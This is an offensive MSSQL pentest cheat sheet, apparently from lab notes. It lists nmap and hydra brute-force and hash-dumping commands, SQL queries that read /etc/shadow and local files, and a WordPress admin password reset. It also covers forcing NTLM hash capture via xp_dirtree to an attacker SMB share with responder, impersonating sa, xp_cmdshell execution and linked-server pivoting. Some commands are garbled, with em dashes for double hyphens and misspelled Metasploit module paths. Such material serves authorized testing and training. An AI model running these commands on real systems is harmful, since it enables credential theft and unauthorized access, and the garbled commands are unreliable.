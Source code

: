 # **MSSSQL**

#### MSSQL Databases

MSSQL has default system databases that can help us understand the structure of all the databases that may be hosted on a target server. Here are the default databases and a brief description of each:

| Database | Description |
|----------|-------------|
| `master` | Tracks all system information for an SQL server instance. |
| `model` | Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database. |
| `msdb` | Used by the SQL Server Agent to schedule jobs and alerts. |
| `tempdb` | Stores temporary objects. |
| `resource` | Read-only database containing system objects included with SQL Server. |


--------------------------------------------------------------------
# Basic
```
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
```
dbo@master)> SELECT @@version;
```

# Footprinting
### Nmap Scripts
```shell-session
$ sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```
```shell-session
nmap 0.0.0.0 -p 1433 —script ms-sql-info

nmap 0.0.0.0 -p 1433 —script ms-sql-info —script-args mssql-instance-port=1433

nmap 0.0.0.0 -p 1433 —script ms-sql-brute —script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt

nmap 0.0.0.0 -p 1433 —script ms-sql-empty-password

nmap 0.0.0.0 -p 1433 —script ms-sql-query —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query=”SELECT * FROM master..syslogins” -oN output.txt”

nmap 0.0.0.0 -p 1433 —script ms-sql-dump-hashes —script-args mssql.username=admin,mssql.password=anamaria

nmap 0.0.0.0 -p 1433 —script ms-sql-xp-cmdshell —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd=”ipconfig”
```

--------------------------------------------------------------------
### BRUTEFORCE

```
$ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 0.0.0.0 mssql
```

--------------------------------------------------------------------
### Useful SQL Commands

```
$ show databases;

$ use books;

$ select * from authors;

$ select load_file(”/etc/shadow”)

$ UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';

http://<TARGET-IP>/8585/wordpress/wp-admin
```
## Read Local Files
```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
--------------------------------------------------------------------
#### Connecting with Mssqlclient.py

If we can guess or gain access to credentials, this allows us to remotely connect to the MSSQL server and start interacting with databases using T-SQL (`Transact-SQL`). Authenticating with MSSQL will enable us to interact directly with databases through the SQL Database Engine. From Pwnbox or a personal attack host, we can use Impacket's mssqlclient.py to connect as seen in the output below. Once connected to the server, it may be good to get a lay of the land and list the databases present on the system.

```shell-session
$ python3 mssqlclient.py Administrator@10.129.201.248 -windows-auth
```


## Capture MSSQL Service Hash
```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```
```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```
```shell-session
$ sudo responder -I tun0
```
```shell-session
$ sudo impacket-smbserver share ./ -smb2support
```
## Impersonate Existing Users with MSSQL
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
#### Verifying our Current User and Role
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
#### Impersonating the SA User
```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
## Communicate with Other Databases with MSSQL
#### Identify linked Servers in MSSQL
```cmd-session
1> SELECT srvname, isremote FROM sysservers
2> GO
```
```cmd-session
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```
--------------------------------------------------------------------
### Metasploit Modules
We can also use Metasploit to run an auxiliary scanner called `mssql_ping` that will scan the MSSQL service and provide helpful information in our footprinting process.
```shell-session
> auxiliary(scanner/mssql/mssql_ping)
```

```
- use auxiliary/scanner/mssql/mssql_login
> set user_file /root/Desktop/wordlist/common_users.txt
> set pass_file…

- use auxiliary/admin/ssql/ssql_enum

- use auxiliary/admin/ssql/ssql_enum_ssql_logins

- use auxiliary/admin/ssql/ssql_exec

- use auxiliary/admin/ssql/ssql_enum_domain_accounts
```



